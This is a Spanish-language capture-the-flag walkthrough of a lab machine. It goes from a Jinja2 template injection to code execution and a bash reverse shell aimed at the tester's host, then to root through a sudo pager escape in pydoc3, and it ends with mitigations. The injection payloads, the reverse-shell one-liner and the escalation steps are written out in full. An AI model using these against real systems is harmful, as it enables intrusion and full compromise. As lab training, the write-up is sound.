## Información General

| Campo              | Valor                                                 |
| ------------------ | ----------------------------------------------------- |
| Máquina            | Caldo de Avecren                                      |
| Plataforma         | TheHackersLabs                                        |
| Dificultad         | Facil                                                 |
| Dirección IP       | 192.168.241.179                                       |
| Sistema Operativo  | Linux (Debian)                                        |
| Vector inicial     | SSTI (Server-Side Template Injection) en Jinja2/Flask |
| Vector de escalada | `sudo` NOPASSWD sobre `pydoc3`                        |

## Resumen del Ataque

La máquina expone tres servicios: SSH (22), un Apache con la página por defecto (80) y una aplicación Flask/Werkzeug (8089) con un formulario aparentemente inofensivo. El campo `user` del formulario refleja su valor en la respuesta, lo que permitió confirmar una **SSTI en Jinja2**. Abusando de la cadena `cycler.__init__.__globals__.os.popen(...)` una vía clásica de escape del sandbox de Jinja2 sin usar `__builtins__` directamente se consiguió ejecución remota de comandos (RCE) como el usuario `caldo`, y desde ahí una reverse shell estabilizada. Una vez dentro, `sudo -l` reveló permiso NOPASSWD sobre `/usr/bin/pydoc3`, binario que permite escapar a una shell de root a través de su paginador interno.

## Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`) y detección de versiones (`-sC -sV`)
- Identificación de SSTI en Jinja2 mediante payload de prueba `{{7*7}}`
- Explotación de SSTI para RCE vía `cycler.__init__.__globals__.os`
- Reverse shell con `bash -i >& /dev/tcp/IP/PUERTO 0>&1`
- Estabilización de TTY (`script`, `stty raw -echo`, `reset xterm`)
- Enumeración de privilegios con `sudo -l`
- Escalada de privilegios abusando de `pydoc3`

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.179
```



### 2. Detección de servicios y versiones

```
nmap -p 22,80,8089 -sC -sV -oN allports 192.168.241.179   
```



### 3. Enumeración web en el puerto 80

```
http://192.168.241.179/
```

Página por defecto de Apache, sin contenido de interés.



### 4. Enumeración web en el puerto 8089

```
http://192.168.241.179:8089/
```



El campo `user` refleja su valor en la respuesta (`value="Hola"`), un indicio claro de posible SSTI si ese valor se renderiza server-side sin sanitizar.

### 5. Confirmación de la SSTI

Prueba con el payload clásico de aritmética Jinja2:

```
{{7*7}}
```





La expresión se evaluó server-side, confirmando la SSTI en `Jinja2/Flask`.

### 6. Explotación de la SSTI para RCE

Escape del sandbox de Jinja2 usando `cycler` (objeto global disponible en el entorno de Flask) para llegar a `os.popen`:

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```





Confirmada la RCE, se lanza una reverse shell:

```
{{ cycler.__init__.__globals__.os.popen('bash -c \"bash -i >& /dev/tcp/192.168.241.128/1234 0>&1\"').read() }}
```



### 7. Recepción de la shell y estabilización

```
nc -lvnp 1234
```



Estabilización de la TTY:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
caldo@CaldoPollo:~$ whoami
```



### 8. Captura de la flag de usuario

```
caldo@CaldoPollo:~$ cat user.txt 
```



### 9. Enumeración de usuarios y permisos sudo

```
caldo@CaldoPollo:~$ grep bash /etc/passwd
```



```
caldo@CaldoPollo:~$ sudo -l
```



`pydoc3` como NOPASSWD, lanza un paginador (`less`) que permite escapar a una shell heredando los privilegios de root.

### 10. Escalada de privilegios vía pydoc3

```
caldo@CaldoPollo:~$ sudo /usr/bin/pydoc3
pydoc - the Python documentation tool

pydoc3 <name> ...
    Show text documentation on something.  <name> may be the name of a
    Python keyword, topic, function, module, or package, or a dotted
    reference to a class or function within a module or module in a
    package.  If <name> contains a '/', it is used as the path to a
    Python source file to document. If name is 'keywords', 'topics',
    or 'modules', a listing of these things is displayed.

pydoc3 -k <keyword>
    Search for a keyword in the synopsis lines of all available modules.

pydoc3 -n <hostname>
    Start an HTTP server with the given hostname (default: localhost).

pydoc3 -p <port>
    Start an HTTP server on the given port on the local machine.  Port
    number 0 can be used to get an arbitrary unused port.

pydoc3 -b
    Start an HTTP server on an arbitrary unused port and open a web browser
    to interactively browse documentation.  This option can be used in
    combination with -n and/or -p.

pydoc3 -w <name> ...
    Write out the HTML documentation for a module to a file in the current
    directory.  If <name> contains a '/', it is treated as a filename; if
    it names a directory, documentation is written for all the contents.
````


```
caldo@CaldoPollo:~$ sudo /usr/bin/pydoc3 os
```

Dentro del paginador, se ejecuta el escape:

```
!/bin/bash
```



```
root@CaldoPollo:/home/caldo# whoami
```



```
root@CaldoPollo:/home/caldo# cd /root
root@CaldoPollo:~# cat root.txt 
```



## Lecciones Aprendidas

- Un campo de formulario que "refleja" un valor es una señal de alarma temprana: merece probarse con payloads de template injection antes que con XSS clásico, sobre todo si el stack es Python/Flask.
- Jinja2 no aísla realmente el acceso a objetos globales del proceso salvo que se use un entorno sandboxed explícito (`ImmutableSandboxedEnvironment`); objetos "inocentes" como `cycler` sirven de puente hacia `os` y `subprocess`.
- Los permisos `sudo NOPASSWD` sobre utilidades que no son estrictamente necesarias para el rol del usuario (como herramientas de documentación) son una vía de escalada trivial vía GTFOBins.
- La estabilización de la TTY es un paso rutinario pero indispensable para trabajar con comodidad tras obtener una reverse shell básica.

## Medidas de Mitigación

- No renderizar directamente en plantillas Jinja2 valores de entrada del usuario sin pasar por un entorno sandboxed (`jinja2.sandbox.ImmutableSandboxedEnvironment`) o sin usar `render_template` con contexto controlado en lugar de `render_template_string` con input crudo.
- Aplicar autoescaping y validar/limitar el tipo de contenido aceptado en cualquier campo que se refleje en la respuesta.
- Revisar y minimizar las entradas en `sudoers`: evitar NOPASSWD en binarios como `pydoc3`, `less`, `vim`, `find`, etc., que son puertas de escape conocidas (GTFOBins).
- Aplicar el principio de mínimo privilegio: si un usuario de aplicación no necesita ejecutar nada como root, no debería tener entradas en `sudoers`.
- Monitorizar procesos hijos inesperados del servidor web (por ejemplo, `bash`, `nc`, conexiones salientes) mediante EDR o reglas de auditoría (`auditd`), ya que son indicadores directos de explotación de SSTI/RCE.